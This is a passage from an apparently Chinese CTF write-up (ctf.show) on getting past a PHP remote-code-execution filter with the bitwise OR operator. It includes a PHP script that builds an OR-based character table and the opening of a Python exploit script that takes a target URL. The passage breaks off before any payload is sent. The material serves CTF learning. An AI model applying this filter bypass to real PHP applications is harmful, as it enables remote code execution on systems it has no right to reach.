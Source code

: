 这个题过滤了$、+、-、^、~使得异或自增和取反构造字符都无法使用，同时过滤了字母和数字。但是特意留了个或运算符|。
我们可以尝试从ascii为0-255的字符中，找到或运算能得到我们可用的字符的字符。
这里先给出两个脚本 exp.py rce_or.php，大家以后碰到可以使用或运算绕过的可以自己手动修改下即可。
生成可用字符的集合



```php
<?php
$myfile = fopen("rce_or.txt", "w");
$contents="";
for ($i=0; $i < 256; $i++) { 
	for ($j=0; $j <256 ; $j++) { 

		if($i<16){
			$hex_i='0'.dechex($i);
		}
		else{
			$hex_i=dechex($i);
		}
		if($j<16){
			$hex_j='0'.dechex($j);
		}
		else{
			$hex_j=dechex($j);
		}
		$preg = '/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i';
		if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
					echo "";
    }
  
		else{
		$a='%'.$hex_i;
		$b='%'.$hex_j;
		$c=(urldecode($a)|urldecode($b));
		if (ord($c)>=32&ord($c)<=126) {
			$contents=$contents.$c." ".$a." ".$b."\n";
		}
	}

}
}
fwrite($myfile,$contents);
fclose($myfile);


```

大体意思就是`从进行异或的字符中排除掉被过滤的，然后在判断异或得到的字符是否为可见字符`
传递参数getflag
用法 `python exp.py <url>`

```python
# -*- coding: utf-8 -*-
import requests
import urllib
from sys import *
import os
os.system("php rce_or.php")  #没有将php写入环境变量需手动运行
if(len(argv)!=2):
   print("="*50)
   print('USER：python exp.py <url>')
   print("eg：  python exp.py http://ctf.show/")
   print("="*50)
   exit(0)
url=argv[1]
```